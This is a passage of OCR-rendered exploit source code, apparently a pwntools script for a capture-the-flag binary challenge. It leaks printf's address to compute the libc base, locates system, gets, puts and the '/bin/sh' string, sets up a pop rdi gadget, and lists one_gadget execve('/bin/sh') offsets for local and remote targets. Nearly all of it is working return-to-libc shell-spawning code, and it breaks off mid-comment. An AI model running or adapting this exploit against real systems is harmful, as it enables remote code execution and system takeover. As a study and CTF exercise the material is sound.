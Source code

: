         bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    # attach(r)

    # puts_plt = 0x0000000000000660

    r.recvuntil('(printf is at ')
    printf_leak = int("0x" + r.recv(16),16)
    libc_base = printf_leak - libc.symbols['printf']
    gets_plt = libc_base + libc.symbols['gets']
    puts_plt = libc_base + libc.symbols['puts']
    system_plt = libc_base + libc.symbols['system']
    binsh = libc_base + libc.search("/bin/sh").next()

    pop_rdi = libc_base + 0x00000000000008c3

    log.info("printf leak   : " + hex(printf_leak))
    log.info("gets_plt      : " + hex(gets_plt))
    log.info("puts_plt      : " + hex(puts_plt))
    log.info("system        : " + hex(system_plt))
    log.info("/bin/sh       : " + hex(binsh))

    log.info("pop rdi;ret   : " + hex(pop_rdi))

    # local
    # 0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
    # constraints:
    #   rsp & 0xf == 0
    #   rcx == NULL
    #
    # 0x4f322 execve("/bin/sh", rsp+0x40, environ)
    # constraints:
    #   [rsp+0x40] == NULL
    #
    # 0x10a38c execve("/bin/sh", rsp+0x70, environ)
    # constraints:
    #   [rsp+0x70] == NULL


    # remote
    # 0x45216 execve("/bin/sh", rsp+0x30, environ)